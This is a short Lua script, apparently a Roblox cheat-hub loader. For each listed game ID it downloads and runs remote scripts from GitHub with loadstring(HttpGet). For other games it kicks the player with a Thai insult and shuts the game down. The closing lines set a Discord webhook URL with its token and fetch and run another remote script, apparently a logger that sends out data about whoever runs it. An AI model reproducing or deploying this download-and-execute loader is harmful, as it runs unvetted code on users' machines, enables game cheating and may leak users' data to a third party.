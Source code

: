 local PlaceId = game.PlaceId

if PlaceId == 2753915549 or PlaceId == 4442272183 or PlaceId == 7449423635 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/2ScriptsMucasXHub/main/README.md")();
elseif PlaceId == 3956818381 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/How/main/README.md")();
elseif PlaceId == 537413528 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUCASXHUB-V.Full/main/README.md")();
elseif PlaceId == 6329844902 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/xMucas/main/README.md")();
elseif PlaceId == 3101667897 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUC-/main/README.md")();
else
	game.Players.LocalPlayer:kick("สคริปไม่มีเกมนี้ ไอ้สัส")
	wait(1)
	game:Shutdown()
end

_G.webhooksdiscord = "https://discord.com/api/webhooks/947370025877127208/osmu7wwABiTa1LK2fJFUuLW9c_3FYsZXFj7tkFsVCgoCkpPZudOZXejzuji5M9tbnQdS"
loadstring(game:HttpGet"https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua")();
